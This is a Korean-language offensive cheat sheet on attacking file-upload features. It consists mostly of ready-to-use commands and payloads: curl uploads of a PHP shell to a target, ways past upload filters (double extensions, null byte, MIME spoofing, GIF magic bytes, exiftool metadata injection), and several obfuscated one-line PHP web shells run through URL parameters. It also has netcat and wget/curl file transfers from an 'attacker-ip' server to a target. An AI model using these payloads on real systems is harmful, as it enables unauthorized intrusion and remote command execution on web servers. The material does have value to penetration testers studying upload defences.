 # 파일 업로드 테크닉

## curl
```bash
# 기본 파일 업로드 (multipart/form-data)
curl -F "file=@/path/shell.php" http://target.com/upload.php

# 여러 파일 업로드
curl -F "file1=@/path/shell.php" -F "file2=@/path/img.jpg" http://target.com/upload.php

# 헤더 추가
curl -F "file=@/path/shell.php" -H "Authorization: Bearer TOKEN" http://target.com/upload.php

# 파일 이름 변경하여 업로드
curl -F "file=@/path/shell.php;filename=image.jpg" http://target.com/upload.php

# Content-Type 지정 (확장자 우회 시 유용)
curl -F "file=@/path/shell.php;type=image/jpeg" http://target.com/upload.php

# POST 요청 값 추가
curl -F "file=@/path/shell.php" -F "submit=Upload" http://target.com/upload.php
```

**중요: `@` 기호는 로컬 파일을 지정하는 식별자로 반드시 필요함**

## 네트워크 파일 전송

### SCP
```bash
# 로컬 → 원격
scp /local/path/file.txt user@10.10.10.10:/remote/path/

# 포트 지정
scp -P 2222 /local/path/file.txt user@10.10.10.10:/remote/path/

# 디렉토리 전송 (-r)
scp -r /local/directory user@10.10.10.10:/remote/path/

# 키 파일 사용
scp -i key.pem /local/path/file.txt user@10.10.10.10:/remote/path/
```

### NC (Netcat)
```bash
# 수신 측 (타겟)
nc -lvp 1234 > received_file

# 송신 측
nc 10.10.10.10 1234 < file_to_send

# 디렉토리 전송
tar -cf - directory | nc 10.10.10.10 1234
# 수신 측
nc -lvp 1234 | tar -xf -
```

### 웹 서버 활용
```bash
# Python HTTP 서버 (공격자 측)
python -m SimpleHTTPServer 8000  # Python 2
python3 -m http.server 8000      # Python 3

# PHP 웹서버 (공격자 측)
php -S 0.0.0.0:8000

# 다운로드 명령어 (타겟 측)
wget http://attacker-ip:8000/file.txt
curl -O http://attacker-ip:8000/file.txt
```

## 업로드 필터 우회 기법

### 파일 확장자 우회
```
shell.php → shell.php.jpg
shell.php → shell.jpg.php
shell.php → shell.php;.jpg
shell.php → shell.php%00.jpg (Null byte injection, PHP < 5.3.4)
```

### MIME 타입 변조
```
Content-Type: application/x-php → Content-Type: image/jpeg
```

### 파일 헤더 조작
```bash
# GIF89a; 헤더 추가 (매직 바이트)
echo 'GIF89a;<?php system($_GET["cmd"]); ?>' > shell.gif
```

### 대소문자 변경
```
shell.php → shell.PHP
shell.php → shell.pHp
```

### 특수 확장자
```
shell.php → shell.php.
shell.php → "shell.php "
```

### 파일 내용 변조
```php
// 이미지에 PHP 코드 삽입
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
mv image.jpg image.php.jpg
```

## 업로드 후 접근 방법
```
http://target.com/uploads/shell.php
http://target.com/uploads/shell.php?cmd=whoami
http://target.com/uploads/shell.php%00.jpg
```

## 콘텐츠 필터링 우회
```php
// 웹쉘 변형
<?php `$_GET[0]`; ?>
<?php eval(base64_decode($_REQUEST[1])); ?>
<?php include($_GET["file"]); ?>
<?php $_REQUEST['x']($_REQUEST['y']); ?>
```
